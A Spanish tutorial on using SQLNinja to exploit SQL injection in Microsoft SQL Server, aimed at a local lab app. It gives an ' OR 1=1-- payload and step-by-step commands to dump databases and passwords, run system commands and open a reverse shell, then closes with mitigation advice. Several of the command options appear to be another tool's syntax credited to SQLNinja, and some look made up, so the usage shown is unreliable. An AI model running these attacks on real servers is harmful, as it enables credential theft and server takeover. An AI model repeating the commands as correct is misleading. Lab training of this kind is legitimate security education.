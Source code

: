 ### Técnica: Uso de **SQLNinja** para detectar y explotar vulnerabilidades de inyección SQL

#### ¿Qué es SQLNinja?

**SQLNinja** es una herramienta especializada en la explotación de inyecciones SQL en bases de datos Microsoft SQL Server. Su objetivo principal es automatizar la explotación de este tipo de vulnerabilidades y obtener acceso al servidor.

### Paso 1: Instalación y configuración de SQLNinja

En Kali Linux, **SQLNinja** suele venir preinstalado. Si no lo tienes, puedes instalarlo fácilmente desde los repositorios de Kali.

1. Instalar SQLNinja

    (si no está instalado):

   ```bash
   sudo apt-get update
   sudo apt-get install sqlninja
   ```

### Paso 2: Preparación de la aplicación vulnerable

Para esta práctica, utilizaremos una aplicación web vulnerable (puedes usar Badstore o cualquier otra aplicación vulnerable que uses en tu entorno de pruebas). Asegúrate de que la aplicación esté corriendo en el servidor y que la base de datos sea Microsoft SQL Server. Si no es SQL Server, SQLNinja no funcionará.

### Paso 3: Verificar la vulnerabilidad con SQLNinja

1. **Obtener una URL vulnerable**:

   - Navega a la aplicación web que estás probando y encuentra una página que realice consultas a la base de datos basadas en la entrada del usuario (por ejemplo, un formulario de búsqueda de productos).

   - Una vez que encuentres un campo vulnerable a la inyección SQL, usa un payload simple como:

     ```bash
     ' OR 1=1--
     ```

   - Si el sitio devuelve resultados inesperados o accesos no autorizados, es probable que sea vulnerable.

2. **Ejecutar SQLNinja**:

   - Abre una terminal en Kali Linux y ejecuta 

     SQLNinja

     . La estructura básica del comando es la siguiente:

     ```bash
     sqlninja -u "http://localhost/vulnerable_page.php?id=1" -v
     ```

   - En este caso, reemplaza la URL con la ruta específica de tu aplicación vulnerable.

   - La opción `-v` habilita el modo verbose para que puedas ver más detalles sobre lo que SQLNinja está haciendo.

### Paso 4: Explotar la vulnerabilidad

SQLNinja tiene varias funciones para explotar vulnerabilidades de inyección SQL en Microsoft SQL Server. Algunos de los principales ataques que puedes realizar son:

#### 1. **Obtener información de la base de datos**

- **SQLNinja** puede extraer información del sistema de base de datos, como las tablas, columnas y registros. Una vez que hayas identificado la vulnerabilidad, SQLNinja puede obtener toda esta información.

- Para listar las bases de datos disponibles:

  ```sql
  sqlninja -u "http://localhost/vulnerable_page.php?id=1" --dbs
  ```

#### 2. **Enumerar las tablas y columnas**

- Una vez que tengas acceso a la base de datos, puedes listar las tablas y las columnas dentro de esas tablas. Para hacerlo:

  ```sql
  sqlninja -u "http://localhost/vulnerable_page.php?id=1" --tables
  ```

#### 3. **Obtener datos sensibles (extracción de registros)**

- Si deseas extraer datos específicos (por ejemplo, usuarios o contraseñas) de una tabla en particular, puedes usar SQLNinja para seleccionar y extraer los registros:

  ```sql
  sqlninja -u "http://localhost/vulnerable_page.php?id=1" --dump
  ```

#### 4. **Escalar privilegios**

- SQLNinja también tiene módulos para intentar obtener permisos más altos en la base de datos y ejecutar comandos del sistema directamente en el servidor de la base de datos, dependiendo de los permisos del usuario comprometido.

- Puedes usarlo para ejecutar comandos del sistema si el servidor SQL tiene permisos administrativos:

  ```sql
  sqlninja -u "http://localhost/vulnerable_page.php?id=1" --os-cmd "net user"
  ```

#### 5. **Explotar la vulnerabilidad para obtener una shell inversa**

- Uno de los usos más peligrosos de SQLNinja es obtener una shell en el sistema a través de la vulnerabilidad de inyección SQL. Si puedes escalar privilegios, puedes intentar una shell inversa para tener control total sobre el servidor.

- El comando para lanzar una shell inversa es:

  ```sql
  sqlninja -u "http://localhost/vulnerable_page.php?id=1" --reverse-shell
  ```

### Paso 5: Mitigación de la inyección SQL

1. **Usar consultas preparadas**: Siempre utiliza **consultas preparadas** o **parametrizadas** en lugar de construir consultas SQL dinámicas con la entrada del usuario.
2. **Validar las entradas del usuario**: Implementa una validación estricta en todas las entradas del usuario. No permitas caracteres especiales como comillas o guiones que se utilizan en ataques SQL.
3. **Escapar las entradas del usuario**: Si no puedes usar consultas preparadas, asegúrate de escapar adecuadamente los caracteres especiales antes de incluir las entradas del usuario en consultas SQL.
4. **Configurar permisos mínimos**: Asegúrate de que las cuentas de base de datos utilizadas por tu aplicación web tengan los permisos mínimos necesarios para realizar sus operaciones. Evita usar cuentas con permisos administrativos en la base de datos.
5. **Auditorías y pruebas regulares**: Realiza auditorías regulares de seguridad y pruebas de penetración para identificar y corregir vulnerabilidades antes de que sean explotadas.